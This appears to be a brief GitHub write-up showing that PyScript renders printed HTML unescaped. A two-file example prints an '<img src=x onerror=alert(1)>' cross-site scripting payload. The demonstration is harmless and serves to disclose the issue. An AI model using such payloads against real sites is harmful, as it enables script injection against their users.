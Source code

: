 # Run XSS in Your browser
## With additional steps

## Intro
Sometime ago, I mean week, Anaconda, release the PyScript https://github.com/pyscript/pyscript. Simplifing: The Python in browser, with HTML and JavaScript. Javascript and python, in the browser,. What can possibly can go wrong. 

> :warning: **If you are using mobile browser**: Be very careful here!

## PyScript XSS
Let's check how it works:
index.html
```
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" href="https://pyscript.net/alpha/pyscript.css" />
        <script defer src="https://pyscript.net/alpha/pyscript.js"></script>
    </head>
    <body>
        <py-script src="/test.py"></py-script>
    </body>
</html>
```
test.py
```
print('as<img src=x onerror=alert(1)>df')
```
and here we are, with XSS. 

## Outro
Make no mistake, The PyScript, is brilliant product!
